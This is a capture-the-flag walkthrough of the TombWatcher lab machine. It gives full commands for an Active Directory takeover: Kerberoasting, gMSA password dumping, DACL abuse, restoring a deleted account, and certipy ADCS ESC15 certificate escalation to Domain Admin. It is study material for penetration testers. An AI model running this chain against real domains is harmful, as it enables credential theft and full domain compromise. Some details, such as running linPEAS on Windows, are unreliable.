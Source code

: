# TombWatcher
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is basketball.

```
Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'basketball' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```
No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.

Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
```

GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash

python gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
This shows that the Infrastructure group can read the password for ansible_dev$.

Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':1c37d00093dc…' set password SAM 'jhvc@4569@'
```
```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'jhvc@4569@' set password john 'jhvc@4569@'

```
This grants access to the john account, and user.txt can be retrieved.

## Root
Once we log in as john, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors. After we run linPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'jhvc@4569@'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

Plan A (ESC15 / ESC1): Request a certificate with Client Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```

## Summary:

🏁 Summary of Attack Chain

```

| Step | User / Access     | Technique Used                   | Result                                   |
| :--- | :---------------- | :------------------------------- | :--------------------------------------- |
| 1    | henry             | BloodHound                       | Found SPN write rights on Alfred         |
| 2    | henry → Alfred    | Kerberoast (SPN abuse)           | Cracked Alfred’s password                |
| 3    | alfred            | BloodHound                       | Found Infrastructure group modifiable    |
| 4    | alfred            | bloodyAD                         | Added Alfred to Infrastructure           |
| 5    | alfred            | gMSADumper                       | Dumped GMSA blob                         |
| 6    | ansible_dev$      | GMSA Abuse & bloodyAD            | Changed SAM, john, user.txt              |
| 7    | john              | impacket-dacledit                | Gained FullControl on ADCS OU            |
| 8    | john              | Restore ADObject & bloodyAD      | Took over cert_admin account             |
| 9    | cert_admin        | certipy                          | Enumerated CA, WebServer template (ESC15)|
| 10   | cert_admin → DA   | cert-based escalation (ESC15/ESC1/B) | Full domain admin access (Administrator) |

```